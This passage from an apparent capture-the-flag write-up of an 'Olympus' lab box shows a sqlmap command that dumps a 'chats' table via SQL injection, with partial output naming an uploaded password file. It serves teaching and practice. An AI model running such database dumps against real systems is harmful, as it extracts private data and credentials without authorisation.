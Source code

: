 ![](images/olympus13.png)

<br>

## System Access - www-data

Back in the olympus database there was a table called chats. I bet the random file name will be stored in there. I run sqlmap:

`sqlmap -r test.req -D olympus -T chats --batch --dump`

```
Database: olympus
Table: chats
[5 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
```